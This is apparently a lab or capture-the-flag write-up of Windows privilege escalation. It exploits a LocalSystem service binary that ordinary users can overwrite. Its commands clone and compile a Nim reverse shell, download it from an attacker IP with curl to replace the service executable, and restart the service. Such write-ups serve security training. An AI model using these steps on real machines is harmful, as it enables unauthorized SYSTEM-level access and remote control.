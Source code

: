 ```
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Services - Image File Permissions                 ┃
┃ TYPE     ┃ Base                                              ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the current user has any write permissions on  ┃
┃ a service's binary or its folder.                            ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛

Name              : spoofer-scheduler
DisplayName       : Spoofer Scheduler
User              : LocalSystem
ImagePath         : C:\Program Files (x86)\Spoofer\spoofer-scheduler.exe
StartMode         : Automatic
Type              : Win32OwnProcess
RegistryKey       : HKLM\SYSTEM\CurrentControlSet\Services
RegistryPath      : HKLM\SYSTEM\CurrentControlSet\Services\spoofer-scheduler
Status            : Running
UserCanStart      : True
UserCanStop       : True
ModifiablePath    : C:\Program Files (x86)\Spoofer\spoofer-scheduler.exe
IdentityReference : BUILTIN\Users (S-1-5-32-545)
Permissions       : AllAccess
```

### Exploit Development
Exploited the weak permissions by replacing the service binary with a reverse shell.

**Reverse Shell Creation:**
- Cloned Nim-Reverse-Shell repository.
- Modified the source to connect back to the attacker's IP on port 80.
- Compiled for Windows using Nim.

**Local Commands:**
```bash
git clone https://github.com/Sn1r/Nim-Reverse-Shell.git
sudo apt install nim
nim c -d:mingw --app:gui -o:spoofer-scheduler.exe rev_shell.nim
```

**Binary Replacement:**
- Backed up the original binary.
- Served the malicious binary via HTTP.
- Downloaded and replaced the target binary.

**Target Commands:**
```bash
PS C:\Program Files (x86)\Spoofer> mv spoofer-scheduler.exe spoofer-scheduler-backup.exe
PS C:\Program Files (x86)\Spoofer> curl http://10.9.1.172:80/spoofer-scheduler.exe -o spoofer-scheduler.exe
```

**Reverse Shell Activation:**
- Stopped and restarted the service to execute the payload.
- Established a listener on the attacker's machine.
